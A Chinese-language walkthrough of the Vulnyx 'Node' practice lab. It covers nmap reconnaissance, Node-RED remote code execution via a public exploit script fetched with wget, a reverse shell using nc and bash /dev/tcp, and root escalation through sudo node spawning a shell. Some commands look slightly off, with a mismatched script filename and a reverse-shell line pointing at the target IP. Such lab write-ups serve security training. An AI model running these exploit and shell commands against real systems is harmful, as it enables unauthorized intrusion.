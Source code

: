 # 环境

来自[Vulny_Node](https://vulnyx.com/#Node)，

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906162953396](image/image-20240906162953396.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.14
```

![image-20240906163028522](image/image-20240906163028522.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,1880 192.168.10.14
```

![image-20240906163158113](image/image-20240906163158113-1725611521719-2.png)

# web渗透

## 已知node-red远程代码执行

google搜索node-red exploit，[漏洞脚本](https://gist.github.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297)

```bash
wget https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py
chmod 777 noderdsh.py
python noderdsh.py http://192.168.10.14
#可以反弹shell
nc -lvvp 8888
bash -i >& /dev/tcp/192.168.10.14/8888 0>&1
```

## 提权

[node提权](https://gtfobins.github.io/gtfobins/node/)

```bash
sudo -u root /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![image-20240906164507592](image/image-20240906164507592.png)